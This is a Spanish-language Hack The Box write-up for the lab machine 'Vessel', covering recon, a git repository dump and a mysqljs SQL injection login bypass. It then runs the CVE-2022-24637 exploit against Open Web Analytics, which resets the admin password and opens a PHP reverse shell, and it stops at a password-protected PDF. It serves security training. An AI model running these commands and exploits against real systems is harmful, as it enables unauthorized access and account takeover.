+++
author = "Andrés Del Cerro"
title = "Hack The Box: Vessel Writeup | Hard"
date = "2024-12-04"
description = ""
tags = [
    "HackTheBox",
    "Vessel",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "git_dumper.py",
    "Analyzing Source Code",
    "SQL Injection",
    "Authentication Bypass",
    "CVE-2022-24637",
    "PHP Code Injection",
    "Reversing PyInstaller Compiled Executable",
    "pyinstxtractor.py",
    "Reversing Windows Executable",
    "Extracting Python Bytecode",
    "Decompiling Bytecode",
    "decompyle3",
    "Abusing Poor Entropy",
    "Python Scripting",
    "Scripting",
    "Cracking PDF hash",
    "Abusing SUID "pinns" privilege",
    "CVE-2022-0811 (CRI-O & pinns)",
    "Modifying Core Pattern"
]

+++

# Hack The Box: Vessel Writeup

Welcome to my detailed writeup of the hard difficulty machine **"Vessel"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a 10.129.122.59 --ulimit 5000 -g
10.129.122.59 -> [22,80]
```

```console
nmap -p22,80 -sCV 10.129.122.59 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-03 23:43 CET
Nmap scan report for 10.129.122.59
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 38:c2:97:32:7b:9e:c5:65:b4:4b:4e:a3:30:a5:9a:a5 (RSA)
|   256 33:b3:55:f4:a1:7f:f8:4e:48:da:c5:29:63:13:83:3d (ECDSA)
|_  256 a1:f1:88:1c:3a:39:72:74:e6:30:1f:28:b6:80:25:4e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Vessel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.32 seconds
```

# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.122.59 -oN allPorts.UDP
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-03 23:44 CET
Nmap scan report for 10.129.122.59
Host is up (0.036s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
21/udp    closed ftp
10000/udp closed ndmp
17616/udp closed unknown
22739/udp closed unknown
24837/udp closed unknown
37843/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.80 seconds
```

Del escaneo inicial no encontramos nada relevante, lo único es que la versión de OpenSSH no está desactualizada, por lo cual la intrusión probablemente sea vía web.

# HTTP Enumeration
`whatweb` no nos reporta nada interesante.
```console
whatweb http://10.129.122.59
http://10.129.122.59 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[name@example.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.122.59], Script, Title[Vessel], X-Powered-By[Express]
```

Así se ve el sitio web.


En el footer de la página vemos el dominio `vessel.htb`, lo añadimos al `/etc/hosts` pero vemos que el sitio web no varia.



Vemos un panel de inicio de sesión en `/login`, también vemos otros endpoints como `/register` y `/forgot`


No podemos crearnos una cuenta de usuario ya que esta funcionalidad no está disponible.


Podemos ver que se están realizando peticiones a un endpoint de una API.


Fuzzeando con `feroxbuster` encontramos algunos recursos interesantes pero necesitamos autenticarnos para poder acceder a ellos.
```console
feroxbuster -u http://vessel.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://vessel.htb
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
302      GET        1l        4w       26c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      948l     5414w   441616c http://vessel.htb/img/portfolio/thumbnails/5.jpg
200      GET    11458l    22050w   213528c http://vessel.htb/css/styles.css
200      GET      587l     4806w   459584c http://vessel.htb/img/portfolio/thumbnails/3.jpg
200      GET     3452l    18206w  1464740c http://vessel.htb/img/portfolio/thumbnails/1.jpg
302      GET        1l        4w       28c http://vessel.htb/admin => http://vessel.htb/login
301      GET       10l       16w      173c http://vessel.htb/css => http://vessel.htb/css/
200      GET       70l      182w     4213c http://vessel.htb/Login
301      GET       10l       16w      173c http://vessel.htb/dev => http://vessel.htb/dev/
301      GET       10l       16w      171c http://vessel.htb/js => http://vessel.htb/js/
302      GET        1l        4w       28c http://vessel.htb/logout => http://vessel.htb/login
200      GET        1l      176w     6119c http://vessel.htb/img/error-404-monochrome.svg
200      GET       51l      125w     2393c http://vessel.htb/404
301      GET       10l       16w      173c http://vessel.htb/img => http://vessel.htb/img/
200      GET       52l      120w     2400c http://vessel.htb/401
200      GET       51l      117w     2335c http://vessel.htb/500
200      GET       89l      234w     5830c http://vessel.htb/Register
200      GET       70l      182w     4213c http://vessel.htb/login
200      GET       26l       70w      976c http://vessel.htb/js/script.js
200      GET       63l      177w     3637c http://vessel.htb/reset
200      GET       89l      234w     5830c http://vessel.htb/register
200      GET       59l      147w     1781c http://vessel.htb/js/scripts.js
200      GET    11766l    22753w   223365c http://vessel.htb/css/style.css
200      GET      919l     5377w   433443c http://vessel.htb/img/portfolio/thumbnails/2.jpg
200      GET     1277l     6344w   492607c http://vessel.htb/img/portfolio/thumbnails/4.jpg
200      GET     1494l     8228w   657198c http://vessel.htb/img/portfolio/thumbnails/6.jpg
200      GET      243l      871w    15030c http://vessel.htb/
302      GET        1l        4w       28c http://vessel.htb/Admin => http://vessel.htb/login
302      GET        1l        4w       28c http://vessel.htb/Logout => http://vessel.htb/login
404      GET        9l       31w      272c http://vessel.htb/http%3A%2F%2Fwww
404      GET        9l       31w      272c http://vessel.htb/http%3A%2F%2Fyoutube
400      GET       10l       59w     1154c http://vessel.htb/%C0
404      GET        9l       31w      272c http://vessel.htb/http%3A%2F%2Fblogs
404      GET        9l       31w      272c http://vessel.htb/http%3A%2F%2Fblog
404      GET        9l       31w      272c http://vessel.htb/**http%3A%2F%2Fwww
403      GET        9l       28w      275c http://vessel.htb/server-status
200      GET       70l      182w     4213c http://vessel.htb/LogIn
[###########>--------] - 61s   123392/220579  0s      found:36      errors:2
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_vessel_htb-1733266343.state ...
```

Y fuzzeando los endpoints de `/api` no encontramos nada interesante.

Podemos fuzzear por subdominios (vhost's) y tampoco encontramos nada interesante.
```console
wfuzz --hh=15030 -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.vessel.htb' http://vessel.htb
```

## Finding `/.git` resource under `/dev` directory
Podemos intentar fuzzear también bajo los directorios encontrados, `/admin` y `/dev` y encontramos algo interesante, un repositorio bajo `/dev/.git`, esto es interesante ya que podemos recomponer el repositorio original, ver el código fuente y también revisar todos los commits y quizás exista información confidencial expuesta.

```console
feroxbuster -u http://vessel.htb/dev/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -d 1 -t 100

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://vessel.htb/dev/
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
302      GET        1l        4w       26c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        8l       20w      139c http://vessel.htb/dev/.git/config
200      GET        1l        2w       23c http://vessel.htb/dev/.git/HEAD
200      GET       19l       55w     3596c http://vessel.htb/dev/.git/index
```

Esto ya lo hemos visto en otras máquinas, podemos utilizar la herramienta [git-dumper](https://github.com/arthaud/git-dumper) para poder reconstruir el repo.

Primero clonamos el repositorio.
```console
git clone https://github.com/arthaud/git-dumper
Cloning into 'git-dumper'...
remote: Enumerating objects: 201, done.
remote: Counting objects: 100% (134/134), done.
remote: Compressing objects: 100% (60/60), done.
remote: Total 201 (delta 85), reused 92 (delta 74), pack-reused 67 (from 1)
Receiving objects: 100% (201/201), 58.39 KiB | 1.62 MiB/s, done.
Resolving deltas: 100% (106/106), done.
```

Y simplemente debemos especificar la URL del repositorio y un directorio donde queramos guardar el contenido.
```console
python3 git_dumper.py http://vessel.htb/dev/.git/ vessel.htb
[-] Testing http://vessel.htb/dev/.git/HEAD [200]
[-] Testing http://vessel.htb/dev/.git/ [302]
[-] Fetching common files
[-] Fetching http://vessel.htb/dev/.git/COMMIT_EDITMSG [200]
[-] Fetching http://vessel.htb/dev/.gitignore [302]
[-] http://vessel.htb/dev/.gitignore responded with status code 302
[-] Fetching http://vessel.htb/dev/.git/description [200]
.........
```

Y tenemos el código fuente de la aplicación.
```console
➜  vessel.htb git:(master) ls
config  index.js  public  routes  views
```

Analizando el código fuente, podemos ver que la única funcionalidad implementada es el inicio de sesión, por lo cual solo podemos "indagar" por aquí.


En el fichero `config/db.js` encontramos unas credenciales para acceso de base de datos, pero no son válidas para el usuario `admin` en el panel de administración.
```console
cat -p db.js
var mysql = require('mysql');

var connection = {
        db: {
        host     : 'localhost',
        user     : 'default',
        password : 'daqvACHKvRn84VdVp',
        database : 'vessel'
}};

module.exports = connection;
```

Podemos ver un commit utilizando `git log` (el primero) donde se indica que la versión de `mysqljs` ha sido actualizada ya que había sido deprecada, pero se sigue usando.

## SQL Injection - Authentication Bypass
Viendo el segundo commit, vemos que se cambió la lógica del inicio de sesión para utilizar `Prepared Statements` y así evitar una inyección SQL.


Igualmente, me encontré con [este artículo](https://flatt.tech/research/posts/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql/) donde se habla de un comportamiento extraño en la función encargada de escapar los caracteres especiales y evitar un SQLi.

Recomiendo leer el artículo entero para entender que es lo que está pasando por detrás y porque se puede llegar acontecer una inyección.

Este código que aparentemente es seguro, resulta ser vulnerable.
```javascript
...
app.post("/auth", function (request, response) {
 var username = request.body.username;
 var password = request.body.password;
 if (username && password) {
  connection.query(
   "SELECT * FROM accounts WHERE username = ? AND password = ?",
   [username, password],
   function (error, results, fields) {
    ...
   }
  );
 }
});
...
```

Esto es porque es posible pasar a los valores `username` y `password` algo que no sea un string, valores como `Object`, `Boolean` y `Array`

Vamos a `burpsuite` y probando payloads vemos que se nos reporta un error en el JSON, esto es buena señal ya que el servidor está interpretando nuestra petición.


Esto lo podemos revisar en el código igualmente ya que podemos ver que no se está filtrando nada, simplemente se asigna a las variables `username` y `password` lo que se le pase, sin ninguna exigencia ni sanitización.

```javascript
let username = req.body.username;
let password = req.body.password;
```

También es important cambiar la cabecera de `Content-Type` para que el servidor sepa que la petición enviada es con data de tipo `application/json`

Entonces, podemos intentar iniciar sesión haciendo que la password valga `0`, esto se traduciría en `False` y vemos que no podemos iniciar sesión.


Sin embargo, si lo establecemos a `1` (`True`) vemos que se nos redirecciona a `/admin`, por ende, hemos iniciado sesión.


Vamos a copiar el valor de la cookie `connect.sid` ya que equivale a una sesión en la cual he iniciado sesión, y ahora vamos a establecerla en nuestro navegador


Ahora podemos acceder al `/admin`


Vemos que en `analytics` se nos redirecciona al subdominio `openwebanalytics.vessel.htb`, vamos a añadir el subdominio al `/etc/hosts`




# Abusing CVE-2022-24637  -> Foothold
Leyendo el código fuente, podemos ver que la versión de `OWA` es la `1.7.3`


Esto ya lo he explotado en la [máquina Analytics de CyberWave](https://pointedsec.github.io/writeups/analytics---cyberwave/#discovering-vulnerable-owa-version) y juraría que en otra más.

Vamos a utilizar [este PoC](https://github.com/0xRyuk/CVE-2022-24637)para conseguir acceso a la máquina. Esta vulnerabilidad consiste en una forma no controlada por la que se consigue reestablecer la contraseña del usuario administrador y se consigue la ejecución remota de comandos mediante los logs inyectando un archivo PHP malicioso.

Primero clonamos el repositorio.
```console
git clone https://github.com/0xRyuk/CVE-2022-24637
Cloning into 'CVE-2022-24637'...
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (11/11), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 11 (delta 2), reused 8 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (11/11), 7.75 KiB | 7.75 MiB/s, done.
Resolving deltas: 100% (2/2), done.
```

Y modificamos el archivo `php-reverse-shell.php` estableciendo nuestra IP y nuestro puerto por el que estaremos en escucha.


Ahora nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
pwncat-cs -lp 443
```

Lanzamos el exploit.
```console
python3 exploit.py http://openwebanalytics.vessel.htb
[SUCCESS] Connected to "http://openwebanalytics.vessel.htb/" successfully!
[ALERT] The webserver indicates a vulnerable version!
[INFO] Attempting to generate cache for "admin" user
[INFO] Attempting to find cache of "admin" user
[INFO] Found temporary password for user "admin": ecaa1041bc122060dacf9aa1944e2efb
[INFO] Changed the password of "admin" to "rZvuUxXdGaL1WmMJzh7k3EPNGMzmvtbV"
[SUCCESS] Logged in as "admin" user
[INFO] Creating log file
[INFO] Wrote payload to log file
```

Y recibimos una conexión en `pwncat` ganando acceso como el usuario `www-data`
```console
[00:31:15] received connection from 10.129.122.59:56796                                                  bind.py:84
[00:31:16] 0.0.0.0:443: upgrading from /usr/bin/dash to /usr/bin/bash                                manager.py:957
[00:31:17] 10.129.122.59:56796: registered new host w/ db                                            manager.py:957
(local) pwncat$
(remote) www-data@vessel:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# User Pivoting
Vemos que existen dos usuarios a parte de `root`, `ethan` y `steven`, así que supongo que tendremos que migrar de usuario antes de poder escalar privilegios.
```console
(remote) www-data@vessel:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
ethan:x:1000:1000:ethan:/home/ethan:/bin/bash
steven:x:1001:1001:,,,:/home/steven:/bin/bash
```

Podemos acceder al directorio personal del usuario `steven` por alguna razón y vemos un binario llamado `passwordGenerator`, también vemos un directorio `.notes`
```console
(remote) www-data@vessel:/home$ ls -la
total 16
drwxr-xr-x  4 root   root   4096 Aug 11  2022 .
drwxr-xr-x 19 root   root   4096 Aug 11  2022 ..
drwx------  5 ethan  ethan  4096 Aug 11  2022 ethan
drwxrwxr-x  3 steven steven 4096 Aug 11  2022 steven
(remote) www-data@vessel:/home$ cd ethan
bash: cd: ethan: Permission denied
(remote) www-data@vessel:/home$ cd steven/
(remote) www-data@vessel:/home/steven$ ls
passwordGenerator
(remote) www-data@vessel:/home/steven$ ls -la
total 33796
drwxrwxr-x 3 steven steven     4096 Aug 11  2022 .
drwxr-xr-x 4 root   root       4096 Aug 11  2022 ..
lrwxrwxrwx 1 root   root          9 Apr 18  2022 .bash_history -> /dev/null
-rw------- 1 steven steven      220 Apr 17  2022 .bash_logout
-rw------- 1 steven steven     3771 Apr 17  2022 .bashrc
drwxr-xr-x 2 ethan  steven     4096 Aug 11  2022 .notes
-rw------- 1 steven steven      807 Apr 17  2022 .profile
-rw-r--r-- 1 ethan  steven 34578147 May  4  2022 passwordGenerator
```

`passwordGenerator` no es un binario si no un ejecutable Windows.
```console
(remote) www-data@vessel:/home/steven$ file passwordGenerator
passwordGenerator: PE32 executable (console) Intel 80386, for MS Windows
```

Este directorio contiene un archivo PDF y una imagen.
```console
(remote) www-data@vessel:/home/steven/.notes$ ls -la
total 40
drwxr-xr-x 2 ethan  steven  4096 Aug 11  2022 .
drwxrwxr-x 3 steven steven  4096 Aug 11  2022 ..
-rw-r--r-- 1 ethan  steven 17567 Aug 10  2022 notes.pdf
-rw-r--r-- 1 ethan  steven 11864 May  2  2022 screenshot.png
```

Vamos a descargarnos este PDF y esta imagen haciendo uso de la función interna `download` de `pwncat-cs`
```console
(remote) www-data@vessel:/home/steven/.notes$
(local) pwncat$ download notes.pdf
notes.pdf ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 17.6/17.6 KB • ? • 0:00:00
[00:34:31] downloaded 17.57KiB in 0.32 seconds                                                                                                                                                                              download.py:71
(local) pwncat$ download screenshot.png
screenshot.png ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 11.9/11.9 KB • ? • 0:00:00
[00:34:36] downloaded 11.86KiB in 0.20 seconds
```

Vemos que el PDF está protegido con contraseña.
